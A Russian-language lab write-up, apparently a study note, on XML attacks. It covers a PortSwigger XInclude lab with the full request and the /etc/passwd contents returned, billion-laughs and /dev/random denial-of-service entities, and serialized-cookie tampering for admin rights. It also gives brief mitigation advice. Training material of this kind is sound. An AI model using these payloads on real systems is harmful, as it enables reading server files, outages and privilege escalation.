 ## XInclude in XXE attack

#### > В общих чертах: как работает, зачем нужен

XXE (или вставка внешних сущностей XML) - уязвимость, позволяющая злоумышленнику вмешиваться в обработку XML-данных веб-приложений (сайтов) при их отправке на сервер. Чаще всего используется для просмотра файлов в файловой системе сервера приложений, а так же других серверов или внешних систем, к которым приложение может получить доступ. Результат уязвимости можно посмотреть в ответе приложения (response). Так же возможно осуществление DoS атак (например уязвимость 'Denial-of-Service').

<i>Чтобы выполнить атаку <b>XInclude</b>, необходимо указать пространство имен XInclude и путь к файлу, содержимое которого требуется получить</i>

---

##### > Разберу по шагам пример того, как работает данная уязвимость

Открою ссылку на лабу из практической работы
> https://portswigger.net/web-security/xxe/lab-xinclude-attack

Нам дано:

- Есть некий сайт с товарами
- По товарам можно посмотреть детализацию (кнопка 1)
- В детализации можно проверить наличие товара в разных магазинах (кнопка 2)

Рассмотрю запрос по кнопке 2 (наличие товара в магазинах)

<b>Запрос 1</b>

~~~
POST /product/stock HTTP/1.1
Host: 0a9700f203ced1b4c026723800b50012.web-security-academy.net
Cookie: session=QZMMaj22B268131231nL1AmaboxdzxV
Origin: https://0a9700f203ced1b4c026723800b50012.web-security-academy.net
Accept: */*
Referer: https://0a9700f203ced1b4c026723800b50012.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Length: 21

productId=2&storeId=1
~~~

В запросе, как минимум, 2 изменяемых параметра.
~~~
productId=2
storeId=1
~~~

Подставлю в значение параметр productId текст из [примера](https://gist.github.com/jakekarnes42/effe052f1095532cda84307024b3d512) к практической работе
~~~
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo> 
~~~

Теперь текст <b>запроса 1</b> будет выглядеть так (все спец. символы из текста выше заменены кодами):

~~~
POST /product/stock HTTP/1.1
Host: 0a9700f203ced1b4c026723800b50012.web-security-academy.net
Cookie: session=QZMMaj22B268131231nL1AmaboxdzxV
Origin: https://0a9700f203ced1b4c026723800b50012.web-security-academy.net
Accept: */*
Referer: https://0a9700f203ced1b4c026723800b50012.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Length: 21

productId=%3cfoo%20xmlns%3axi%3d%22http%3a%2f%2fwww%2ew3%2eorg%2f2001%2fXInclude%22%3e%3cxi%3ainclude%20parse%3d%22text%22%20href%3d%22file%3a%2f%2f%2fetc%2fpasswd%22%2f%3e%3c%2ffoo%3e%20&storeId=1
~~~

Теперь выполню (отправлю на сервер) <b>запрос 1</b> и посмотрю ответ сервера (response):

Обычный удачный ответ от сервера выглядит так, но это не наш случай:

~~~
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Connection: close
Content-Length: 3

456
~~~

<b>Ответ сервера при атаке XInclude:</b>

~~~
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 1279

"Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin"
~~~

Как видим, это содержимое файла <b>/etc/passwd</b>

---

##### > Причина возникновения уязвимости

Практически все уязвимости XXE возникают из-за того, что библиотека синтаксического анализа XML-приложения поддерживает потенциально опасные функции XML, которые приложению по сути не нужны или не предназначены для использования.
Самый простой и эффективный способ предотвратить атаки XXE — отключить эти функции.
Как правило, достаточно отключить разрешение внешних сущностей и отключить поддержку XInclude.
Обычно это можно сделать с помощью параметров конфигурации или программного переопределения поведения по умолчанию.

---

##### > "Отказ в обслуживании" (Denial-of-Service)

<b>Пример 1</b>
Пример атаки состоит из определения 10 сущностей, каждая из которых определяется как состоящая из 10 предыдущих сущностей, с документом, состоящим из одного экземпляра наибольшей сущности, которая расширяется до одного миллиарда копий первой сущности

[Описание атаки (wiki)](https://en.wikipedia.org/wiki/Billion_laughs_attack)

~~~
POST http://somesite.com/xml HTTP/1.1
<?xml version="1.0" ?>
<!DOCTYPE lolz [
    <!ENTITY lol "lol">
    <!ELEMENT lolz (#PCDATA)>
    <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;
    <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
    <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
    <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
    <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
    <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
    <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
    <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
    <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
<foo>
  &lol9;
</foo>
~~~

![здесь могла быть картинка](https://i.stack.imgur.com/hYnmH.png)

<b>Пример 2</b>
Злоумышленник пытается вызвать отказ в обслуживании, используя потенциально бесконечный файл:

~~~
<!ENTITY xxe SYSTEM "file:///dev/random" >]>
~~~


---
##### > Атаки на механизм сериализации/десериализации, приводящие к частичному или полному отказу в обслуживании

Небезопасная десериализация (Insecure Deserialization) - это уязвимость, при которой злоумышленник внедряет вредоносный объект в приложение при передаче сериализованных данных, что часто приводит к удаленному выполнению кода, обходу пути, повышению привилегий, обходу аутентификации и многому другому

<b>Пример 1</b>

Приложение React вызывает набор микросервисов Spring Boot. Программисты пылаись сделать свой код иммутабельным (неизменяемым), но вот решение что они придумали, заключалось в сериализации пользовательского состояния и передаче его с клиента на сервер с каждым запросом. Злоумышленник замечает сигнатуру объекта Java «R00» и использует инструмент Java Serial Killer для удаленного выполнения кода на сервере приложений

<b>Пример 2</b>
Форум на PHP использует сериализацию объектов PHP Java для создания супер cookie, a:4 содержащей ID пользователя, его роль, хеш пароля и другое состояние:

~~~
{i:0;i:132;i:1;s:7:"Mallory";i:2;s:4:"user"; i:3;s:32:"b6a8b3bea87fe0e05022f8f3c88bc960";}
~~~

Злоумышленник меняет состояние объекта для получения высоких привилегий a:4:

~~~
{i:0;i:1;i:1;s:5:"Alice";i:2;s:5:"admin"; i:3;s:32:"b6a8b3bea87fe0e05022f8f3c88bc960";}
~~~
